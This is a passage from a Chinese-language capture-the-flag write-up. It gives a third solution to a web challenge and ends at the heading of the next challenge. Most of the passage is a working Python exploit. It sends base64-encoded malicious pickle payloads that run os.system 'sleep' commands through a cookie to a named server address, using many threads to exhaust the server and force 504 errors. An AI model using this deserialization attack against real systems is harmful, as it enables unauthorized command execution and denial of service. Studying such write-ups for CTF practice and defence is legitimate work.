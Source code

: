 ###  解法3

是羽师傅的解法，利用多线程来运行sleep函数，使某些线程调用不了导致的504

```python
#author:yu22x
import pickle
import base64
import requests 
import os 
import threading
url="http://182.92.223.176:35240/"
def write():
    a=b"(cos\nsystem\nS'sleep 5'\no."
    a = base64.b64encode(a)
    r=requests.get(url+'balancer',headers={'Cookie':'userdata='+a.decode()})
    print(r.text)
def write2():
    a=b"(cos\nsystem\nS'sleep 10'\no."
    a = base64.b64encode(a)
    r=requests.get(url+'balancer',headers={'Cookie':'userdata='+a.decode()})
    print(r.text)
def write3():
    a=b"(cos\nsystem\nS'sleep 15'\no."
    a = base64.b64encode(a)
    r=requests.get(url+'balancer',headers={'Cookie':'userdata='+a.decode()})
    print(r.text)
def write4():
    a=b"(cos\nsystem\nS'sleep 20'\no."
    a = base64.b64encode(a)
    r=requests.get(url+'balancer',headers={'Cookie':'userdata='+a.decode()})
    print(r.text)
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,5): 
            threading.Thread(target=write).start()
        for i in range(1,5): 
            threading.Thread(target=write2).start()
        for i in range(1,5): 
            threading.Thread(target=write3).start()
        for i in range(1,5): 
            threading.Thread(target=write4).start()
    event.set()


```

##  web--easylogin

### 考点：
